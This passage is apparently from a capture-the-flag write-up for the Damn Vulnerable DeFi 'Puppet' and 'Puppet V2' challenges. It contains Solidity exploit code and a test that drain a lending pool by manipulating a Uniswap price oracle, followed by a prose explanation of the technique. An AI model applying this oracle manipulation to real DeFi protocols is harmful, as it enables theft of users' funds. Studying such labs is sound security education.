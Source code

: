   ```solidity
    }

    receive() external payable {}


    function attack() external payable {
        token.approve(address(uniswap), PLAYER_INITIAL_TOKEN_BALANCE);
        uniswap.tokenToEthTransferInput(PLAYER_INITIAL_TOKEN_BALANCE, 9 ether, block.timestamp + 150, address(this));       
        pool.borrow{value: address(this).balance}(POOL_INITIAL_TOKEN_BALANCE, recovery);
    }
}

function test_puppet() public checkSolvedByPlayer {
    Attack attack = new Attack{value: PLAYER_INITIAL_ETH_BALANCE/2}(address(token), address(lendingPool), address(uniswapV1Exchange), recovery);
    token.transfer(address(attack), PLAYER_INITIAL_TOKEN_BALANCE);
    attack.attack();       
}

  ```
</details>


---

###  Puppet V2

#### Task: 

The developers of the [previous pool](https://damnvulnerabledefi.xyz/challenges/puppet/) seem to have learned the lesson. And released a new version.

Now they’re using a Uniswap v2 exchange as a price oracle, along with the recommended utility libraries. Shouldn't that be enough?

You start with 20 ETH and 10000 DVT tokens in balance. The pool has a million DVT tokens in balance at risk!

Save all funds from the pool, depositing them into the designated recovery account.


#### Solution Explanation:

The pool uses a Uniswap v2 price oracle to calculate the required collateral in WETH for borrowing DVT. The borrower must deposit three times the value of the borrowed amount in WETH to the pool.

This price is calculated based on the reserves of WETH and DVT in the Uniswap v2 pair. We can manipulate this price by interacting with the Uniswap v2 liquidity pool.

By swapping DVT tokens for ETH on Uniswap, we can drastically affect the reserves in the Uniswap pair, driving up the cost of DVT relative to ETH. This manipulation allows us to artificially lower the collateral requirement needed to borrow a large amount of DVT from the pool.

Once the price of DVT is sufficiently lowered, we deposit a relatively small amount of WETH to meet the manipulated collateral requirements and borrow all 1 million DVT tokens from the pool. These tokens are then transferred to the recovery address, completing the exploit.
